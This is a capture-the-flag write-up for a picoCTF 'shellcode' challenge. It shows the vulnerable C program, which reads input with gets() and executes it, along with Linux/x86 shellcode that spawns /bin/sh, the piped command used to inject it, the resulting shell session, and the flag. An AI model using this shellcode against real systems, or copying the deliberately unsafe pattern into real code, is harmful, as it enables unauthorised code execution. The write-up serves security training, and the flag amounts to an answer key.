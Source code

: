 # shellcode
## Question
>This [program](files/vuln) executes any input you give it. Can you get a shell? You can find the program in `/problems/shellcode_3_09e0c5074980877d900d65c545d1e127` on the shell server. [Source](files/vuln.c).

## Hint
>Maybe try writing some shellcode?

>You also might be able to find some good shellcode online.

# Solution
The code doesn't do anything special. It is waiting for a user input and then displays it.

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 148
#define FLAGSIZE 128

void vuln(char *buf){
  gets(buf);
  puts(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  char buf[BUFSIZE];

  puts("Enter a string!");
  vuln(buf);

  puts("Thanks! Executing now...");
  
  ((void (*)())buf)();
     
  return 0;
}
```

Let's find a shellcode to run a shell. Go to this [website](http://shell-storm.org/shellcode/) and get a shellcode that is relevant to the target platform (Linux/x86) and that does what we're looking for (a shell). This [one](http://shell-storm.org/shellcode/files/shellcode-827.php) looks good. Let's extract the shellcode:

~~~~
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80
~~~~

Now, we want to send this payload to `vuln` as user input, so let's try that:
~~~~
$ **python -c "print '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80'" | ./vuln **
Enter a string!
1�Ph//shh/bin��PS��

Thanks! Executing now...
~~~~

It says that this is executing, but the program immediately closes. This is because we are capturing the input that the shell is waiting to receive. To fix that, let's execute `cat` just after:
~~~~
$ **(python -c "print '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80'"; cat) | ./vuln **
Enter a string!
1�Ph//shh/bin��PS��

Thanks! Executing now...
**ls**
flag.txt  vuln	vuln.c
**cat flag.txt**
picoCTF{shellc0de_w00h00_7f5a7309}
^C
~~~~

# Flag
`picoCTF{shellc0de_w00h00_7f5a7309}`
